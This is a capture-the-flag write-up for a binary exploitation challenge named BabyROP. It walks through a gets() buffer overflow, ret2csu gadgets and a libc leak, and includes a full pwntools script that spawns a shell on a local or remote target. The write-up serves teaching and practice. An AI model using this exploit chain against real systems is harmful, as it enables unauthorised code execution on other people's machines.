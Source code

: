 <h2> Binary Exploitation </h2>

    - Chall Name: BabyROP

I had fun solving this challenge cause I learnt a new ROP technique orz

I know less talking more hacking alright let's get into it xd

Checking the file type and the protections enabled on the binary shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/343dca32-8c25-46ca-9112-b61656179a1a)

So we're working with a 64bits binary which is dynamically linked and not stripped

The protections enabled is just `NX` which means `No-Execute` basically preventing us from executing shellcode placed on the stack 

Ok I decided to run it to get an overview of what it does
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/baf61b54-66ca-4c5e-a082-f3185bf87086)

Well it seems to receive our name then exits

Using Ghidra I decompiled the binary and here's the main function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/94227713-db1c-4a4c-be3e-7692bde05647)

```c
undefined8 main(void)

{
  char name [64];
  
  write(1,"Your name: ",11);
  gets(name);
  return 0;
}
```

Well well the code is really small and the vulnerability is obvious

So it defines the buffer which can hold up just 64bytes but uses `gets()` to receive our input which can lead to a buffer overflow: [ref](https://man7.org/linux/man-pages/man3/gets.3.html)

Now because the binary is dynamically linked and it makes use of `write()` we can go ahead and rop using ret2libc

The idea basically is that we would leak the global offset table value for `gets()` using the procedure linkage table for `write()` then that would give us the libc base address which from there we can call `system()`

All this depends on the availability of rop gadgets which in this case we need gadgets that can control rdi, rsi & rdx because to call `write()` we need to control the 3 parameters

Ok so let's get the offset needed to overwrite the instruction pointer
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cf196edb-8bb4-451e-8dfe-9a649775b100)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c79db9a2-a41a-4574-b695-216676b6a945)

Cool the offset is 72

I used `ropper` to look for gadgets and saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7800139f-8012-4eeb-a2b6-3eb804051c4b)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ee79bf5d-8b89-497c-ab64-e5dc2f21f66d)

From looking at the available gadgets I figured it's possible to control the rdi & rsi registers

But the issue is that there were no gadgets to control the rdx register

You might wonder whether it's necessary well it is because the rdx register would hold the size of what we want to put to stdout in this case 8 since that's how addresses are alligned in x64 architecture

Take a look at the syscall table [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#tables)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3ec7f6aa-032f-48ad-a6ce-5a64a70db855)

Now how do we control the rdx register?

There's a technique called Ret2CSU, you can check it up from this [paper](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf)

Basically leveraging that technique allows us to have control over gadgets gotten from `__libc_csu_init`

Here's the disassembly for that function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/da6505c5-e4b5-4f5e-b0a7-9d5a03d1e089)

The portion which is of interest to us is this:

Section1:

```
   0x00000000004011c6 <+86>:    add    rsp,0x8
   0x00000000004011ca <+90>:    pop    rbx
   0x00000000004011cb <+91>:    pop    rbp
   0x00000000004011cc <+92>:    pop    r12
   0x00000000004011ce <+94>:    pop    r13
   0x00000000004011d0 <+96>:    pop    r14
   0x00000000004011d2 <+98>:    pop    r15
   0x00000000004011d4 <+100>:   ret
```

Section2:

```
   0x00000000004011b0 <+64>:    mov    rdx,r14
   0x00000000004011b3 <+67>:    mov    rsi,r13
   0x00000000004011b6 <+70>:    mov    edi,r12d
   0x00000000004011b9 <+73>:    call   QWORD PTR [r15+rbx*8]
   0x00000000004011bd <+77>:    add    rbx,0x1
   0x00000000004011c1 <+81>:    cmp    rbp,rbx
   0x00000000004011c4 <+84>:    jne    0x4011b0 <__libc_csu_init+64>
```

With this we can control the rdx register! You may ask why well let's see

First I need to make use of the csu pop gadgets because eventually when i call the csu gadget to control the rdi, rsi & rdx registers it would use the registers which we can control with the csu pop gadget

Idea is this:

```
r12 == 0x1 (fd)
r13 == gets@got (got for gets())
r14 == 0x8 (size for stdout)
r15 == write@got (got for write() because it does a call at __libc_csu_init+73)
rbx == 0x0 (due to instruction at __libc_csu_init+73: [Base index*scale + displacement] we need to make rbx 0 so when it does rbx*8 that should be equal to 0 then r15 + 0 == r15
rbp == 0x1 (to pass the comparism at __libc_csu_init+81
junk == b'A'*8 (for instruction at __libc_csu_init+86, since it's adds extra 8 bytes to the stack we need to pad it with additional 8 bytes
```

With that said this would leak the global offset table address for `gets()` then we can just `ret2system`

Here's my exploit script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from warnings import filterwarnings

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'babyrop')
libc = exe.libc

filterwarnings("ignore")
context.log_level = 'info'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *main+53
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def init():
    global libc
    global io

    io = start()

def ret2csu():
    offset = 72
    rbx = 0x0
    rbp = 0x1
    r12 = 0x1
    r13 = exe.got['gets']
    r14 = 0x8
    r15 = exe.got['write']
    junk = b'A'*8


    csu_call = 0x4011b0
    csu_pop = 0x4011ca
    
    payload = flat({
        offset: [
            csu_pop,
            rbx,
            rbp,
            r12,
            r13,
            r14,
            r15,
            csu_call,
            junk,
            rbx,
            rbp,
            r12,
            r13,
            r14,
            r15,
            exe.sym['main']

        ]
    })

    info("Sending Ret2csu Payload")
    sleep(1)
    io.sendline(payload)
    io.recvuntil("name:")
    leak = unpack(io.recv(7)[1:].ljust(8, b'\x00'))
    libc.address = leak - libc.sym['_IO_gets']
    info("Leaked libc address: %#x", leak)
    sleep(1)
    info("Libc base address: %#x", libc.address)
    sleep(1)

def rop():
    offset = 72
    pop_rdi = 0x00000000004011d3 # pop rdi; ret;
    ret = 0x000000000040101a # ret; 

    sh = next(libc.search(b'/bin/sh\x00'))
    system = libc.sym['system']

    payload = flat({
        offset: [
            pop_rdi,
            sh,
            ret,
            system
        ]
    })

    info("Spawning Shell :)")
    sleep(2)
    io.sendline(payload)
    io.recvuntil("name:")
    
    io.interactive()


def main():
    
    init()
    ret2csu()
    rop()
    

if __name__ == '__main__':
    main()
```

Running it works
[![asciicast](https://asciinema.org/a/E3ecIsiCEyaeDAIGLPOy1Yz6x.svg)](https://asciinema.org/a/E3ecIsiCEyaeDAIGLPOy1Yz6x)

I had fun learning a new exploitation technique and thanks for reading 😄

































